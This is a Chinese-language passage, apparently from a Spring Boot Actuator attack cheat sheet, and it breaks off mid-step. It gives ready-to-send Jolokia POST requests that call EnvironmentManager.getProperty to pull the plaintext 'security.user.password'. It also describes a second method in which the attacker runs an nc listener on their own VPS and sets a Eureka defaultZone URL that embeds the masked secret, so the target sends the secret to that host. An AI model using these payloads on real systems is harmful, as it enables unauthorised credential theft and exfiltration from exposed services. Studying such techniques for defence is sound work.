 * 调用 `org.springframework.cloud.context.environment` Mbean

> 实际上是调用 org.springframework.cloud.context.environment.EnvironmentManager 类实例的 getProperty 方法

spring 1.x

```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x

```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

* 调用其他 Mbean

> 目标具体情况和存在的 Mbean 可能不一样，可以搜索 getProperty 等关键词，寻找可以调用的方法。

### 0x02：获取被星号脱敏的密码的明文 (方法二)

**利用条件：**

* 可以 GET 请求目标网站的 `/env`
* 可以 POST 请求目标网站的 `/env`
* 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
* 目标使用了 `spring-cloud-starter-netflix-eureka-client` 依赖
* 目标可以请求攻击者的服务器（请求可出外网）

**利用方法：**

**步骤一： 找到想要获取的属性名**

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 \* 遮掩的属性值对应的属性名。

**步骤二： 使用 nc 监听 HTTP 请求**

在自己控制的外网服务器上监听 80 端口：

```
nc -lvk 80
```

**步骤三： 设置 eureka.client.serviceUrl.defaultZone 属性**

将下面 `http://value:${security.user.password}@your-vps-ip` 中的 `security.user.password` 换成自己想要获取的对应的星号 \* 遮掩的属性名；

`your-vps-ip` 换成自己外网服务器的真实 ip 地址。

spring 1.x
